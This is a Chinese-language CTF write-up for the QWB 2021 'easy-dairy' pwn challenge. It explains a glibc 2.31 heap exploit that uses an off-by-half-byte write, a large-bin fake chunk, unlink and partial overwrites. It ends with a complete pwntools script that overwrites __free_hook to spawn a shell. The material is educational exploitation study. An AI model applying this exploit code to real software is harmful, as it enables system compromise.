```yaml
---
title: easy-dairy
date: 2021-07-02 14:53:19
tags: 
---
```

easy-dairy qwb 2021
<!--more-->
# Ana

`libc version` == 2.31

漏洞点：

1. add会比输入的size大一个字节之后会补零，之后会往内容后面多半个字节写一个`checksum`(暂且称之为`offby0.5`)
2. `show`的时候会检查`checksum`不过写的有些问题用的是`&1`所以一半可能性能`show`出来（虽然`index`和`ptr`和`size`会被检查）

虽然做完之后感觉也没啥，但是这种利用`large bin`的方式很巧妙值得一篇单独的wp。

# Solution

本题之中开始时能用的上的只有 `offby0.5`,不能控制`size`大小所以只能控制`inuse`，这时候只能走`unlink`。因为`unlink`会检查 `fd→bk` 和`bk→fd`，但是没有泄漏，所以需要借助已有的地址，至于为什么要用`largin bin`因为`large bin`可以直接提供两个指向自己的`heap`指针且恰好可以设计size=presize（其实我是马后炮，我是看了队友给出的一篇[文章][1]发现2.29没泄漏走`large bin`比较快）。

一个`large bin`一般长这样，我们构造我们的fake chunk 再`large bin +0x10`处，将`bk`改成`size`，使其等于`persize`，`presize`自己算，恰好把`fake` `chunk`给`unlink`掉。

```bash
large bin (splited):
--------------------------------
presize       size
--------------------------------
fd            bk
--------------------------------
fd_nextsize   bk_nextsize
--------------------------------
unsorted bin
...
--------------------------------
attack chunk:(which offby0.5/with a fake presize)
--------------------------------
victim: (which would consolidate backforward)
...
--------------------------------
```

我们的写指针从`fd`开始写，当只有一个`large bin`的时候`nextsize`指针都指向自己，这是个优势我们如果要满足`unlink`只需要

1. `presize` = `large bin` +0x10
2. `fd` = `bk`-0x8
3. `size` = `pre_size`

通过以下手段满足：

1. 用`fastbin chain`（`tcache` 的话`key`会覆盖掉`fake chunk`的`size`）来放一个`heap`地址之后`partial` `write`掉指向`fake chunk`
2. `fd`可以`partial write`最后一个字节，倒数第二字节需要碰运气恰好为00（当然最后1.5字节要自己调成0，此处需要1/16的概率），之后程序会改掉2.5字节所以再需要1/16的概率。

这样只要设置好 `attack chunk`的 `fake presize`之后`free` 掉 `attack chunk` 就可以`overlap` `unsorted bin`，接下来就是常规操作了。

# EXP(1/256)

```python
from pwn import *
context.arch='amd64'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size,c='A\n'):
    cmd(1)
    p.sendlineafter(": ",str(size-1))
    p.sendafter(": ",c)
def free(c):
    cmd(3)
    p.sendlineafter(": ",str(c))
def show(c):
    cmd(2)
    p.sendlineafter(": ",str(c))
p=process("./pwn")
#context.log_level='debug'
add(0xd60)#0
add(0x6f8+0x20)#1
add(0x208)#2
add(0x488)#3
add(0x28)#4
free(1)
add(0xAAA)#1
add(0x18,"A\n")#5
add(0xAAA)#6
add(0x28,p64(1+0xd)+p64(0x901)+b'\x18'+b'\n')#7
for x in range(8,8+8):
    add(0x28)
for x in range(8,8+8):
    free(x)
free(7)
for x in range(7,7+7):
    add(0x28)
add(0x28,'\x30\n')#14
free(2)
add(0x208,'\0'*0x207)#2
free(2)
add(0x208,'\0'*0x1ff+'\x09'+'\n')#2
# context.terminal=['tmux','split']
# gdb.attach(p,'''
# set *0x55555555a040=0x000055555555a018
# set *0x000055555555a030=0x000055555555a030
# q
# ''')
context.terminal=['tmux','split','-h']
free(3)
add(0x548)#3
context.log_level='debug'
add(0x28,'A'*0x16+'\n')#15
add(0x160)#16
#raw_input()
show(15)
p.readuntil(": ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7f83ef52dbe0-0x7f83ef342000)
log.warning(hex(base))
#gdb.attach(p)
add(0x28)#17
add(0x28)#18
add(0x28)#19
add(0x28)#20
for x in range(7,7+6):
    free(x)
free(18)
free(20)
free(15)
show(17)
p.readuntil(": ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x1230
log.warning(hex(heap))
free(19)
free(17)
for x in range(7,7+6):
    add(0x28)
add(0x28)#15
add(0x28,p64(base+0x1eeb28)+b'\n')#17 - > free hook 
add(0x28,'/bin/sh\0\n')#18
add(0x28)#19
add(0x28,p64(base+0x55410)+b'\n')#20
#gdb.attach(p,'b free')
free(18)
p.interactive()
```

# 总结

利用`large bin`的结构`partial write`来满足`unlink`的思路是很骚了。

即使是末尾补0，无泄露也挡不住`0ffby0.5`，这题挺有意思的。

[1]: https://www.anquanke.com/post/id/236078?ivk_sa=1024320u#h3-14
